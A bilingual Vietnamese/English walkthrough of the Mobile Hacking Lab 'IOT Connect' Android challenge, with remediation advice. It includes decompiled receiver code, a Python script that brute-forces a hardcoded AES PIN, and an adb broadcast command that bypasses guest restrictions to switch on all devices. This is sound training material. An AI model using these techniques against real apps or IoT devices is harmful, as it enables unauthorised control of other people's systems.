Mobile Hacking Lab: IOT Connect
Bilingual writeup on exported broadcast abuse, client-side PIN recovery, and direct MASTER_ON trigger for full device activation.
Mobile Hacking Lab: IOT Connect
Ref: Mobile Hacking Lab: IOT Connect
Mục tiêu: Mục tiêu của lab là khai thác lỗ hổng Broadcast Receiver trong ứng dụng IOT Connect để kích hoạt master switch và bật toàn bộ thiết bị theo cách mà người dùng guest không thể thực hiện qua giao diện bình thường.
Phân tích tĩnh
Sử dụng công cụ JADX GUI để dịch ngược mã nguồn, sau đó chúng ta cùng kiểm tra mã nguồn.
Kiểm tra trong AndroidManifest.xml ta thấy xuất hiện các receiver được bật export=true rất đáng nghi ngờ


Tuy nhiên tại receiver ProfileInstallReceiver mặc dù có export=true nhưng vẫn yêu cầu có quyền hạn để gửi được broadcast, kiểm thử tìm kiếm xem quyền DUMP có được định nghĩa trong hệ thống không?

Kết quả tìm kiếm cho thấy, đây là một quyền không được định nghĩa hoặc code đã obfucaste làm không thể phát hiện được, tạm thời bỏ qua. Tiếp tục quan sát vào receiver MasterReceiver thấy không yêu cầu quyền mà vẫn có thể truy cập được. Thử tìm kiếm chuỗi MasterReceiver trong mã nguồn

Kiểm tra thấy hàm onReceiver của MasterReceiver được xử lý trong MasterReceiver. Từ mã nguồn này ta thấy receiver động này không yêu cầu permission và không kiểm tra caller gửi broadcast. Một điểm quan trọng nữa là receiver động được khởi tạo từ các activity thông thường
CommunicationManager.INSTANCE.initialize(this);
Vì LoginActivity là activity export ra ngoài nên acttacker có thể mở activity này trước để cho receiver hoạt động
<activity
android:name="com.mobilehackinglab.iotconnect.LoginActivity"
android:exported="true">
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
Phân tích luồng xử lý khi nhận action MASTER_ON
Trong CommunicationManager.initialize(...), receiver động sẽ kiểm tra action MASTER_ON, lấy key từ intent, rồi xác thực bằng Checker.check_key(key).
public void onReceive(Context context2, Intent intent) {
if (Intrinsics.areEqual(intent != null ? intent.getAction() : null, "MASTER_ON")) {
int key = intent.getIntExtra("key", 0);
if (context2 != null) {
if (Checker.INSTANCE.check_key(key)) {
CommunicationManager.INSTANCE.turnOnAllDevices(context2);
Toast.makeText(context2, "All devices are turned on", 1).show();
} else {
Toast.makeText(context2, "Wrong PIN!!", 1).show();
}
}
}
}
Trong hàm turnOnAllDevices()
public final void turnOnAllDevices(Context context) {
Log.d("TURN ON", "Turning all devices on");
turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_ONE_STATE_KEY, true);
turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_TWO_STATE_KEY, true);
turnOnDevice(context, ACFragment.AC_PREFERENCES, ACFragment.AC_STATE_KEY, true);
turnOnDevice(context, PlugFragment.PLUG_FRAGMENT_PREFERENCES, PlugFragment.PLUG_STATE_KEY, true);
turnOnDevice(context, SpeakerFragment.SPEAKER_FRAGMENT_PREFERENCES, SpeakerFragment.SPEAKER_STATE_KEY, true);
turnOnDevice(context, TVFragment.TV_FRAGMENT_PREFERENCES, TVFragment.TV_STATE_KEY, true);
turnOnDevice(context, BulbsFragment.BULB_FRAGMENT_PREFERENCES, BulbsFragment.BULB_STATE_KEY, true);
}
Kiểm tra hai đoạn mã thì kết luận để kích hoạt được turnOnAllDevices() thì yêu cầu gửi được action MASTER_ON với key đúng và không có yêu cầu nào về quyền guest trong onReceive().
Kiểm tra hàm xử lý mã Pin
Việc kiểm tra mã PIN được nằm hoàn toàn trong client side code
private static final String algorithm = "AES";
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";
public final boolean check_key(int key) {
try {
return Intrinsics.areEqual(decrypt(ds, key), "master_on");
} catch (BadPaddingException e) {
return false;
}
}
Key được sinh trực tiếp từ số PIN bằng cách chuyển PIN thành chuỗi byte rồi copy vào mảng 16 byte.
private final SecretKeySpec generateKey(int staticKey) {
byte[] keyBytes = new byte[16];
byte[] staticKeyBytes = String.valueOf(staticKey).getBytes(Charsets.UTF_8);
System.arraycopy(staticKeyBytes, 0, keyBytes, 0, Math.min(staticKeyBytes.length, keyBytes.length));
return new SecretKeySpec(keyBytes, algorithm);
}
Cipher được tạo bằng AES/ECB/PKCS5Padding và decrypt trực tiếp ciphertext hardcode.
SecretKeySpec secretKey = generateKey(key);
Cipher cipher = Cipher.getInstance(algorithm + "/ECB/PKCS5Padding");
cipher.init(2, secretKey);
byte[] decryptedBytes = cipher.doFinal(Base64.getDecoder().decode(ds2));
return new String(decryptedBytes, Charsets.UTF_8);
Mã nguồn thu thập được alg, cipher, thuật toán mã hóa, cách sinh key từ PIN, plaintext mong đợi là master_on. Khi có đầy đủ thì ta thực hiện brute-force để giải mã tìm giá trị PIN đúng.
#!/usr/bin/env python3
import base64
import subprocess
DS = "OSnaALIWUkpOziVAMycaZQ=="
TARGET = b"master_on"
def generate_key_hex(pin: int) -> str:
key = bytearray(16)
pin_bytes = str(pin).encode("utf-8")
key[: min(len(pin_bytes), 16)] = pin_bytes[:16]
return key.hex()
def check_pin(pin: int) -> bool:
result = subprocess.run(
[
"openssl",
"enc",
"-d",
"-aes-128-ecb",
"-K",
generate_key_hex(pin),
],
input=base64.b64decode(DS),
stdout=subprocess.PIPE,
stderr=subprocess.DEVNULL,
check=False,
)
return result.returncode == 0 and result.stdout == TARGET
for pin in range(1_000_000):
if check_pin(pin):
print(f"[+] PIN found: {pin}")
break
else:
print("[-] PIN not found")
Thực hiện chạy mã nguồn và thu được kết quả
[+] PIN found: 345
Vậy đã có mã PIN hợp lệ là 345.
Phân tích động
Trước tiên hãy tải và cài đặt mã nguồn vào trong thiết bị android của bạn trước
adb install com.mobilehackinglab.iotconnect.apk
Mở app lên và trải nghiệm xem có gì tiếp theo. Thực hiện đăng kí và đăng nhập bình thường

Sau khi truy cập rồi vào Set up

Nhiệm vụ của chúng ta cần thực hiện broadcast receive để bật toàn bộ thiết bị lên, nhưng tại sao không bật thủ công luôn cho nhanh nhỉ :) (Thử xem)

Nhận được thông báo lỗi Sorry, guest ... đại khái là chúng ta không phải admin nên không được phép bật :). Được rồi truy cập ra tính năng Master Switch, chúng ta thấy giao diện cho phép nhập mã pin và mã PIN vừa tìm được là 345 hãy thử xem

Chúng ta lại tiếp tục nhận được lỗi tương tự không được phép truy cập từ tài khoản guest. Truy cập lại phần xử lý logic phần này kiểm tra xem!

Đoạn cần tìm nằm trong mã nguồn MasterSwitchActivity
// onCreate(..)
button.setOnClickListener(new View.OnClickListener() { // from class: com.mobilehackinglab.iotconnect.MasterSwitchActivity$$ExternalSyntheticLambda0
@Override // android.view.View.OnClickListener
public final void onClick(View view) {
MasterSwitchActivity.onCreate$lambda$0(user, this, view);
}
});
//
public static final void onCreate$lambda$0(User user, MasterSwitchActivity this$0, View it) {
Intrinsics.checkNotNullParameter(user, "$user");
Intrinsics.checkNotNullParameter(this$0, "this$0");
if (user.isGuest() != 1) {
EditText editText = this$0.pin_edt;
if (editText == null) {
Intrinsics.throwUninitializedPropertyAccessException("pin_edt");
editText = null;
}
String pinText = StringsKt.trim((CharSequence) editText.getText().toString()).toString();
if (pinText.length() > 0) {
int pin = Integer.parseInt(pinText);
Intent intent = new Intent("MASTER_ON");
intent.putExtra("key", pin);
LocalBroadcastManager.getInstance(this$0).sendBroadcast(intent);
return;
}
Toast.makeText(this$0, "Please enter a PIN", 0).show();
return;
}
Toast.makeText(this$0, "Sorry, the masterswitch can't be controlled by guests", 0).show();
}
Từ đó chúng ta suy ra rằng hệ thống chỉ giới hạn Guest chỉ nằm ở UI, chỉ kiểm tra bằng user.isGuest() != 1 ở UI.
Vậy từ điểm nhận broadcast được export=true thì ta có thể sử dụng adb am để thực hiện
PoC Exploit
- Từ phân tích tĩnh ta đã thu thập được mã PIN là: 345
- Action để kích hoạt "MASTER_ON" và extra là "key"
Chỉ cần gửi action MASTER_ON kèm key=345 là sẽ đi thẳng vào onReceive() và kích hoạt turnOnAllDevices(...).
adb shell am broadcast -a MASTER_ON --ei key 345
Kiểm tra kết quả nhận được thông báo

Đăng nhập và kiểm tra các thiết bị

Các thiết bị mà trước đó guest không bật được thì giờ đây đã bật được toàn bộ. Exploit thành công
Kết luận
Tác động
- Lỗ hổng này cho phép attacker bỏ qua hạn chế dành cho guest và điều khiển master switch, dẫn tới việc bật toàn bộ thiết bị được quản lý bởi ứng dụng.
- Đây là lỗi kiểm soát truy cập do tin tưởng dữ liệu broadcast từ bên ngoài trong khi chỉ áp dụng kiểm tra phân quyền ở UI.
Nguyên nhân gốc rễ
- Nguyên nhân gốc rễ gồm hai phần:
- Broadcast path cho action
MASTER_ONkhông được bảo vệ bằng permission hoặc xác thực caller. - Cơ chế xác thực PIN nằm hoàn toàn ở client-side và có thể đảo ngược hoặc brute-force từ mã nguồn.
- Broadcast path cho action
- Nguyên nhân gốc rễ gồm hai phần:
Khuyến nghị khắc phục
- Không export receiver xử lý
MASTER_ONnếu chỉ dùng nội bộ. - Nếu buộc phải export, phải gắn permission mức signature hoặc kiểm tra caller một cách phù hợp.
- Không dùng
registerReceiver(...)toàn cục cho luồng điều khiển nhạy cảm mà không ràng buộcpermission. - Không đặt logic xác thực PIN hoàn toàn ở client-side.
- Di chuyển kiểm tra quyền người dùng khỏi UI và đặt tại điểm xử lý thực tế của hành động nhạy cảm.
- Không export receiver xử lý
Ứng dụng IOT Connect chứa lỗ hổng Broadcast Receiver dẫn tới bypass hạn chế guest. Bằng cách phân tích mã nguồn, suy ra PIN 345, và gửi broadcast MASTER_ON trực tiếp tới luồng xử lý không được bảo vệ, attacker có thể bật toàn bộ thiết bị mà không cần đi qua luồng UI hợp lệ dành cho người dùng không phải guest.
Mobile Hacking Lab: IOT Connect
Ref: Mobile Hacking Lab: IOT Connect
Objective: The lab objective is to exploit a Broadcast Receiver vulnerability in the IOT Connect app to trigger the master switch and turn on all devices in a way that a guest user cannot do through the normal UI flow.
Static Analysis
Use JADX GUI to reverse the source code, then inspect the code paths.
In AndroidManifest.xml, we can see several receiver components with export=true, which is suspicious.
However, for ProfileInstallReceiver, although it has export=true, it still requires a permission to send a broadcast. Test whether the DUMP permission is defined in the system.
The search result shows this permission is not defined, or the code is obfuscated and cannot be identified clearly, so skip it for now. Continue with MasterReceiver, which does not require any permission and is still reachable. Search for the MasterReceiver string in the source.
We can see the receiver handling path is in MasterReceiver.onReceive. From this code, this dynamic receiver does not require permission and does not verify the caller sending the broadcast. Another key point: this dynamic receiver is initialized from normal activities.
CommunicationManager.INSTANCE.initialize(this);
Since LoginActivity is exported, an attacker can launch this activity first so the receiver becomes active.
<activity
android:name="com.mobilehackinglab.iotconnect.LoginActivity"
android:exported="true">
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
Analyze the processing flow for action MASTER_ON.
In CommunicationManager.initialize(...), the dynamic receiver checks action MASTER_ON, reads the key from the intent, then validates it via Checker.check_key(key).
public void onReceive(Context context2, Intent intent) {
if (Intrinsics.areEqual(intent != null ? intent.getAction() : null, "MASTER_ON")) {
int key = intent.getIntExtra("key", 0);
if (context2 != null) {
if (Checker.INSTANCE.check_key(key)) {
CommunicationManager.INSTANCE.turnOnAllDevices(context2);
Toast.makeText(context2, "All devices are turned on", 1).show();
} else {
Toast.makeText(context2, "Wrong PIN!!", 1).show();
}
}
}
}
Inside turnOnAllDevices():
public final void turnOnAllDevices(Context context) {
Log.d("TURN ON", "Turning all devices on");
turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_ONE_STATE_KEY, true);
turnOnDevice(context, FansFragment.FAN_STATE_PREFERENCES, FansFragment.FAN_TWO_STATE_KEY, true);
turnOnDevice(context, ACFragment.AC_PREFERENCES, ACFragment.AC_STATE_KEY, true);
turnOnDevice(context, PlugFragment.PLUG_FRAGMENT_PREFERENCES, PlugFragment.PLUG_STATE_KEY, true);
turnOnDevice(context, SpeakerFragment.SPEAKER_FRAGMENT_PREFERENCES, SpeakerFragment.SPEAKER_STATE_KEY, true);
turnOnDevice(context, TVFragment.TV_FRAGMENT_PREFERENCES, TVFragment.TV_STATE_KEY, true);
turnOnDevice(context, BulbsFragment.BULB_FRAGMENT_PREFERENCES, BulbsFragment.BULB_STATE_KEY, true);
}
From both code snippets, we can conclude that to trigger turnOnAllDevices(), we only need to send action MASTER_ON with the correct key, and there is no guest permission check in onReceive().
Check the PIN handling function.
PIN verification is entirely implemented in client-side code.
private static final String algorithm = "AES";
private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";
public final boolean check_key(int key) {
try {
return Intrinsics.areEqual(decrypt(ds, key), "master_on");
} catch (BadPaddingException e) {
return false;
}
}
The key is derived directly from the PIN by converting PIN bytes and copying into a 16-byte array.
private final SecretKeySpec generateKey(int staticKey) {
byte[] keyBytes = new byte[16];
byte[] staticKeyBytes = String.valueOf(staticKey).getBytes(Charsets.UTF_8);
System.arraycopy(staticKeyBytes, 0, keyBytes, 0, Math.min(staticKeyBytes.length, keyBytes.length));
return new SecretKeySpec(keyBytes, algorithm);
}
The cipher is created with AES/ECB/PKCS5Padding and decrypts a hardcoded ciphertext directly.
SecretKeySpec secretKey = generateKey(key);
Cipher cipher = Cipher.getInstance(algorithm + "/ECB/PKCS5Padding");
cipher.init(2, secretKey);
byte[] decryptedBytes = cipher.doFinal(Base64.getDecoder().decode(ds2));
return new String(decryptedBytes, Charsets.UTF_8);
From the source, we already have alg, cipher, the crypto scheme, key derivation from PIN, and expected plaintext master_on. With these, brute-force can be used to recover the correct PIN.
#!/usr/bin/env python3
import base64
import subprocess
DS = "OSnaALIWUkpOziVAMycaZQ=="
TARGET = b"master_on"
def generate_key_hex(pin: int) -> str:
key = bytearray(16)
pin_bytes = str(pin).encode("utf-8")
key[: min(len(pin_bytes), 16)] = pin_bytes[:16]
return key.hex()
def check_pin(pin: int) -> bool:
result = subprocess.run(
[
"openssl",
"enc",
"-d",
"-aes-128-ecb",
"-K",
generate_key_hex(pin),
],
input=base64.b64decode(DS),
stdout=subprocess.PIPE,
stderr=subprocess.DEVNULL,
check=False,
)
return result.returncode == 0 and result.stdout == TARGET
for pin in range(1_000_000):
if check_pin(pin):
print(f"[+] PIN found: {pin}")
break
else:
print("[-] PIN not found")
Run the script and get the result.
[+] PIN found: 345
So the valid PIN is 345.
Dynamic Analysis
First, install the APK on your Android device.
adb install com.mobilehackinglab.iotconnect.apk
Open the app and test behavior. Register and log in normally.
After access, go to Set up.
Our task is to send a broadcast to turn on all devices, but why not just turn them on manually first? :) (Try it)
You get an error message like Sorry, guest ..., meaning we are not admin so we cannot enable them. Next, open Master Switch. The UI allows entering a PIN, and we already found PIN 345, so try it.
We still get the same restriction error for guest accounts. Re-check the logic for this feature.
The relevant code is in MasterSwitchActivity.
// onCreate(..)
button.setOnClickListener(new View.OnClickListener() { // from class: com.mobilehackinglab.iotconnect.MasterSwitchActivity$$ExternalSyntheticLambda0
@Override // android.view.View.OnClickListener
public final void onClick(View view) {
MasterSwitchActivity.onCreate$lambda$0(user, this, view);
}
});
//
public static final void onCreate$lambda$0(User user, MasterSwitchActivity this$0, View it) {
Intrinsics.checkNotNullParameter(user, "$user");
Intrinsics.checkNotNullParameter(this$0, "this$0");
if (user.isGuest() != 1) {
EditText editText = this$0.pin_edt;
if (editText == null) {
Intrinsics.throwUninitializedPropertyAccessException("pin_edt");
editText = null;
}
String pinText = StringsKt.trim((CharSequence) editText.getText().toString()).toString();
if (pinText.length() > 0) {
int pin = Integer.parseInt(pinText);
Intent intent = new Intent("MASTER_ON");
intent.putExtra("key", pin);
LocalBroadcastManager.getInstance(this$0).sendBroadcast(intent);
return;
}
Toast.makeText(this$0, "Please enter a PIN", 0).show();
return;
}
Toast.makeText(this$0, "Sorry, the masterswitch can't be controlled by guests", 0).show();
}
From this, we infer that the Guest restriction exists only at UI level via user.isGuest() != 1.
So from the exposed broadcast path (export=true), we can use adb am directly.
PoC Exploit
- From static analysis, the recovered PIN is: 345
- Action is
MASTER_ONand extra iskey
Just send action MASTER_ON with key=345, and it goes directly into onReceive() and triggers turnOnAllDevices(...).
adb shell am broadcast -a MASTER_ON --ei key 345
Check the result notification.
Log in and verify the device states.
Devices that guest could not enable before are now all turned on. Exploit successful.
Conclusion
Impact
- This vulnerability allows an attacker to bypass guest restrictions and control the master switch, resulting in turning on all devices managed by the app.
- This is an access-control flaw caused by trusting externally supplied broadcast data while applying authorization checks only in the UI.
Root cause
- The root cause has two parts:
- The broadcast path for action
MASTER_ONis not protected by permission or caller validation. - PIN validation is fully client-side and can be reversed or brute-forced from the code.
- The broadcast path for action
- The root cause has two parts:
Remediation recommendations
- Do not export the receiver handling
MASTER_ONif it is only for internal use. - If it must be exported, enforce signature-level permission or proper caller validation.
- Do not use global
registerReceiver(...)for sensitive control flows without permission constraints. - Do not keep PIN validation logic entirely on the client side.
- Move user authorization checks out of UI and enforce them at the actual sensitive action handler.
- Do not export the receiver handling
The IOT Connect app contains a Broadcast Receiver vulnerability that enables guest-restriction bypass. By analyzing source code, deriving PIN 345, and sending MASTER_ON broadcast directly to an unprotected processing path, an attacker can turn on all devices without following a valid non-guest UI flow.